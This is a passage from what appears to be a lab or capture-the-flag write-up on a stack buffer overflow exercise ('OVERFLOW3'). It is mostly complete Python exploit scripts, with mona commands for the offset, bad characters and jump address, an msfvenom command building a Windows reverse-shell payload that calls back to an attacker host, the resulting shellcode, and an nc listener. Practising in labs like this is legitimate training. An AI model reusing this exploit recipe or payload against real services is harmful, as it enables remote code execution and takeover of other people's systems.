  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

### Exploit

We open a listener.

`nc -nvlp 4444`

When we run `exploit.py`, we see a shell open!


Since the steps are mostly the same, continuing below are my mostly unedited notes.


## OVERFLOW3

We start with the skeleton script for `exploit.py`.

```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW3 "
offset = 0
overflow = "A"* offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

### Finding the Offset

We use `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1800` and put the resulting string into our payload.

In Immunity we run `!mona findmsp -distance 1800`. The resulting offset is 1274, so we set our offset variable in `exploit.py` to 1274.

`!mona bytearray -b "\x00"`

Current exploit:
```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW3 "
offset = 1274 
overflow = "A"* offset
retn = ""
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

Run the exploit.

`!mona compare -f C:\mona\oscp\bytearray.bin -a 0189fa30`

Bad characters are`\x00\x01\x02\x03\x04\x11\x12\x40\x41\x5f\x60\xb8\xb9\xee\xef` which translates to `\x00\x11\x40\x5f\xb8\xee`.

### Finding Jump Point

`!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"`

Found `0x62501203`, which is `\x03\x12\x50\x62`. Set the retn variable to this.

### Generate Payload

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.209.62 LPORT=4444 EXITFUNC=thread -b "\x00\x11\x40\x5f\xb8\xee" -f c`

Which is put into the payload of the exploit.

### NOPs

Set `padding = "\x90"*16`.

### Exploit

The exploit should look like 

```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW3 "
offset = 1274 
overflow = "A"* offset
retn = "\x03\x12\x50\x62"
padding = "\x90"*16
payload = ("\xfc\xbb\x03\x2e\xd7\x86\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
"\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xff\xc6\x55"
"\x86\xff\x16\x3a\x0e\x1a\x27\x7a\x74\x6f\x18\x4a\xfe\x3d"
"\x95\x21\x52\xd5\x2e\x47\x7b\xda\x87\xe2\x5d\xd5\x18\x5e"
"\x9d\x74\x9b\x9d\xf2\x56\xa2\x6d\x07\x97\xe3\x90\xea\xc5"
"\xbc\xdf\x59\xf9\xc9\xaa\x61\x72\x81\x3b\xe2\x67\x52\x3d"
"\xc3\x36\xe8\x64\xc3\xb9\x3d\x1d\x4a\xa1\x22\x18\x04\x5a"
"\x90\xd6\x97\x8a\xe8\x17\x3b\xf3\xc4\xe5\x45\x34\xe2\x15"
"\x30\x4c\x10\xab\x43\x8b\x6a\x77\xc1\x0f\xcc\xfc\x71\xeb"
"\xec\xd1\xe4\x78\xe2\x9e\x63\x26\xe7\x21\xa7\x5d\x13\xa9"
"\x46\xb1\x95\xe9\x6c\x15\xfd\xaa\x0d\x0c\x5b\x1c\x31\x4e"
"\x04\xc1\x97\x05\xa9\x16\xaa\x44\xa6\xdb\x87\x76\x36\x74"
"\x9f\x05\x04\xdb\x0b\x81\x24\x94\x95\x56\x4a\x8f\x62\xc8"
"\xb5\x30\x93\xc1\x71\x64\xc3\x79\x53\x05\x88\x79\x5c\xd0"
"\x1f\x29\xf2\x8b\xdf\x99\xb2\x7b\x88\xf3\x3c\xa3\xa8\xfc"
"\x96\xcc\x43\x07\x71\xf9\x99\xd6\xbf\x95\x9f\xd8\xae\x39"
"\x29\x3e\xba\xd1\x7f\xe9\x53\x4b\xda\x61\xc5\x94\xf0\x0c"
"\xc5\x1f\xf7\xf1\x88\xd7\x72\xe1\x7d\x18\xc9\x5b\x2b\x27"
"\xe7\xf3\xb7\xba\x6c\x03\xb1\xa6\x3a\x54\x96\x19\x33\x30"
"\x0a\x03\xed\x26\xd7\xd5\xd6\xe2\x0c\x26\xd8\xeb\xc1\x12"
"\xfe\xfb\x1f\x9a\xba\xaf\xcf\xcd\x14\x19\xb6\xa7\xd6\xf3"
"\x60\x1b\xb1\x93\xf5\x57\x02\xe5\xf9\xbd\xf4\x09\x4b\x68"
"\x41\x36\x64\xfc\x45\x4f\x98\x9c\xaa\x9a\x18\xbc\x48\x0e"
"\x55\x55\xd5\xdb\xd4\x38\xe6\x36\x1a\x45\x65\xb2\xe3\xb2"
"\x75\xb7\xe6\xff\x31\x24\x9b\x90\xd7\x4a\x08\x90\xfd\x4a"
"\xae\x6e\xfe")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

Open a listener and run the exploit!